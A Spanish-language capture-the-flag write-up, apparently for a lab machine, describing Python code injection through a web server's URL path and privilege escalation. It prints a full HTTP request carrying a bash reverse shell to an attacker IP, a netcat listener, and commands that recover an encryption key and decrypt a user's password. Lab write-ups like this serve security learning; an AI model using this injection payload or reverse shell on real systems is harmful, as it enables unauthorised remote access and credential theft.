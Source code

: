 ```vim
```

el archivo me costo entenderlo, pero luego de un poco de ayuda logre cachar que esto explica que para el index.html se le pueden ingresar string que el sistema ejecuta como python, logrando asi introducir una reverse shell para entrar al system.

meti la pag a un burp, luego hice la reverse shell.

> nc -lvp 4443

```vim
GET /';os.system('bash%20-c%20"bash%20-i%20>&%20/dev/tcp/10.10.14.72/4443%200>&1"');a=' HTTP/1.1
Host: 10.10.10.168:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

listo, entre como www-data

## Robert

este paso culiao me costo muxo, tuve que leer el codigo y entender que hacia cada cosa.

> SuperSecureCrypt.py​ - Este es un acrhivo.py que se usa para encriptar algun archivo o string que le envien
>
> check.txt​ - limpia el texto encryptado de un archivo out.txt que deja el .py anterior
> 
> out.txt​ - texto excriptado del clear text "check.txt"
>
> passwordreminder.txt​ - password encriptada del usuario robert

Una mega paja wn. el tema es que puedes obtener la clave que usa para encriptar de la sgte manera.

> python3 SuperSecureCrypt.py -d -k "Encrypting this file with your
  key should result in out.txt, make sure your key is correct!" -i
  out.txt -o /tmp/passwd.txt
>
> cat /tmp/passwd.txt
>> alexandrovich
>
Ahora con esto podemos obtener lo demas:

> python3 SuperSecureCrypt.py -d -k alexandrovich -i
  passwordreminder.txt -o /tmp/robertpwd.txt
>
>> cat /tmp/robertpwd.txt
>>> SecThruObsFTW
